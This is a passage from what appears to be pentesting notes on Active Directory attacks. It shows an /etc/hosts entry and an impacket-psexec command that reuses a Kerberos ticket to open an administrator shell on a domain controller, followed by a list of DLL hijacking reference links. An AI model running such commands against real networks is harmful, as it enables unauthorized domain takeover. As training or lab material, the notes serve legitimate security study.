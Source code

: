 > Before proceeding, it is necessary to add the domain name and the DC computer name to our `/etc/hosts` and we can use `psexec` without problems

```
192.168.238.172 domain.local DC-NAME
```

```
impacket-psexec -k -n domain.local/Administrador@DC-NAME cmd.exe
```

```
-no-pass / don't ask for password (useful for -k)

-k / Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
```

<img src = "https://user-images.githubusercontent.com/84678370/144128407-0dc013ec-9e5e-4ac4-aef8-941fe19a5e6f.png" width="1000" height="800" />

> And boom, we're DC Admins for a long time....

### DLL Hijacking & proxying

- - <a href= "https://www.elladodelmal.com/2021/04/que-es-una-dll-y-en-que-consiste-el-dll.html" style="color:bluesky">__El Lado Del Mal__

- - <a href= "https://docs.microsoft.com/es-es/troubleshoot/windows-client/deployment/dynamic-link-library" style="color:bluesky">__Docs DLL__

- - <a href= "https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya" style="color:bluesky">__Docs LoadLibraryA__

- - <a href= "https://docs.microsoft.com/en-us/previous-versions/ms915415(v=msdn.10)" style="color:bluesky">__Docs LoadLibraryEx__

- - <a href= "https://www.hackplayers.com/2010/08/dll-hijacking.html" style="color:bluesky">__HackPlayers__

- - <a href= "https://www.hackplayers.com/2019/11/una-breve-introduccion-al-dll-hijacking.html" style="color:bluesky">__HackPlayers Basic Attack__

- - <a href= "https://en.wikipedia.org/wiki/Dynamic-link_library" style="color:bluesky">__Wikipedia DLL__

- - <a href= "https://en.wikipedia.org/wiki/Dynamic-link_library#DLL_hijacking" style="color:bluesky">__Wikipedia DLL Hijacking__

- - <a href= "https://itm4n.github.io/windows-dll-hijacking-clarified/" style="color:bluesky">__itm4n Git__

- - <a href= "https://github.com/carlospolop/hacktricks/blob/master/windows/windows-local-privilege-escalation/dll-hijacking.md" style="color:bluesky">__Carlospolop Github__

- - <a href= "https://github.com/tothi/dll-hijack-by-proxying" style="color:bluesky">__Thoti Github__

- - <a href= "https://powersploit.readthedocs.io/en/latest/Privesc/Find-ProcessDLLHijack/" style="color:bluesky">__Powersploit__
